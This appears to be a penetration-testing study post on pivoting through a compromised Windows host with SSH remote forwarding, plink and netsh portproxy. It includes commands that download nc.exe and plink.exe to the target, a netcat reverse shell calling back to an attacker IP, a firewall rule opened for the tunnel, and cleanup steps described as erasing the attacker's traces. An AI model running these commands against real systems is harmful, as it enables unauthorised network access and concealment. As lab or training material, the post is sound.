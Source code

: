 ```yaml
---
layout: post
title: Windows Port Forwarding
titledate: 09/24/23
tags: ["infosec", "info_gathering", "offsec", "tunnel", "plink", "netsh"]
---
```


#### Windows SSH tools

windows has ssh and several other bundled tools available by default since win 1803 and an option since 1709 

by default ssh is located in %systemdrive%\Windows\System32\OpenSSH

if our DMZ target1 has ssh installed we can use that to setup a remote dynamic port forward

on our attacking machine

    $ sudo systemctl start ssh

then on our attacking machine we connect via rdp to the connection that has ssh installed via rdp

    $ xfreerdp /u:rdp_user /p:password /v:192.168.1.1

to check for ssh in windows

    $ where ssh

    $ ssh.exe -V

if the versin of ssh is higher than 7.6 then we can use remote dynamic port forwarding

now we open up the remote dynamic listening session on our kali machine

    target1: ssh -N -R 9998 attacker@192.168.1.1

to check the port is listening on our kali machine

    $ ss -ntplu

update /etc/proxychains4.conf

    socks5 127.0.0.1 9998

in this example the postgres db is on an internal network we cannot reach but our ssh windows machine can , now that we have remote dynamic port forwarding setup, we can use proxychains with psql to connect to this internal db

    $ proxychains psql -h 10.4.50.1 -U postgres

#### plink

what if ssh has been removed

one of the advantages of plink is it is not as readily flagged as an unwanted communication tool compared to some other more well known tools

to run plink we first need to copy over netcat to our windows machine

i do this with a python server

    $ cp /usr/share/windows-resources/binaries/nc.exe .

    $ python3 -m uploadserver

or if we have a shell only

    target1:> powershell wget -Uri http://192.168.10.10/nc.exe -OutFile C:\Windows\Temp\nc.exe

then on windows i can download the the executable

setup a netcat listener on our attacker

    $ nc -nvlp 4446

on the windows taget connect to the nc listener

    $ C:\Windows\Temp\nc.exe -e cmd.exe 192.168.1.1 4446

then we copy plink over to windows

    $ cp /usr/share/windows-resources/binaries/plink.exe .

if no gui an shell only

    C:> powershell wget -Uri http://192.168.118.4/plink.exe -OutFile C:\Windows\Temp\plink.exe

once plink is copied over

    $ C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.1.1

then on our kali host we can check that 9833 is listening

    $ ss -ntplu

now we can conect to the attacking machine loopback interface through port 9983 via rdp through the plink remote port forward

    $ xfreerdp /u:rdp /p:password /v:127.0.0.1:9833

#### netsh

netsh does require admin privs to setup port forwarding but it is a native windows tool

in this example we want to connect to an internal pg db via an ssh port forward and have admin rdp access to a target windows machine

we rdp to the machine

    $ xfreerdp /u:rdp /p:password /v:192.168.1.1

because we can run cmd as admin we do so

    C:> netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.1.1 connectport=22 connectaddress=10.4.1.1

here we use netsh to create a listening external interface 2222  forward traffic to the pg db port 22 

we can use netstat to see our listening ports

    C:> netstat -anp TCP | find "2222"

and check our port forward setup

    C:> netsh interface portproxy show all

now we can check the port from our attacking machine

    $ sudo nmap -sS 192.168.1.1 -Pn -n -p2222

it is possible that a firewall is blocking 2222 if it reports filtered

if this is the case we can use netsh again to create a firewall rule to allow connections on this port

    C:> netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.1.1 localport=2222 action=allow

now if the port is open we can connect from our attacking kali machine to port 2222 on our listening target1 windows machine and directly reach port 22 on the internal pg db machine

    $ ssh database_admin@192.168.1.1 -p2222

after our attack is complete we can delete both the firewall rule and port forward to erase our steps

    C:> netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
    C:> netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.1.1


